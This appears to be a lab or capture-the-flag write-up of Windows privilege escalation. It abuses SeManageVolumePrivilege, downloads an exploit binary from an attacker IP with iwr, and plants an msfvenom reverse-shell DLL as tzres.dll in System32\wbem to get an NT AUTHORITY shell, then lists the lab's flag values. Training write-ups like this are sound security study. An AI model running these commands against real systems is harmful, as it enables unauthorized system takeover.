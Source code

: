 ![[Cybersecurity-Resources/images/Pasted image 20241105135834.png]]
---
# Privilege Escalation
## Local Enumeration
- Ran `whoami /priv` and identified `SeManageVolumePrivilege` - vulnerable to [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)
![[Cybersecurity-Resources/images/Pasted image 20241105141646.png]]
## Privilege Escalation vector
- Served `SeManageVolumeExploit.exe` via python and ran `iwr -uri http://192.168.45.178/SeManageVolumeExploit.exe -outfile SeManageVolumeExploit.exe`
![[Cybersecurity-Resources/images/Pasted image 20241105141841.png]]
- Ran `icacls C:\Windows\System32` - identified full privileges to `C:Windows\System32`
![[Cybersecurity-Resources/images/Pasted image 20241105142826.png]]
- Ran `msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.178 LPORT=6666 -f dll -o tzres.dll` to create reverse shell in `tzres.dll` and uploaded to `C:\Windows\System32\wbem` 
![[Cybersecurity-Resources/images/Pasted image 20241105143036.png]]
- Started netcat listener on port `6666` and ran `systeminfo` on target to trigger reverse shell - caught reverse shell as `nt authority`
![[Cybersecurity-Resources/images/Pasted image 20241105143154.png]]
![[Cybersecurity-Resources/images/Pasted image 20241105143238.png]]
- Ran `type C:\Users\Administrator\Desktop\proof.txt` to print proof flag `46e76431490ebf8ccc7c112f112fcfc2`
![[Cybersecurity-Resources/images/Pasted image 20241105143348.png]]
---
# Trophy & Loot
`local.txt` = `d075a9b799bbf34764ed55ccd797108d`
`proof.txt` = `46e76431490ebf8ccc7c112f112fcfc2`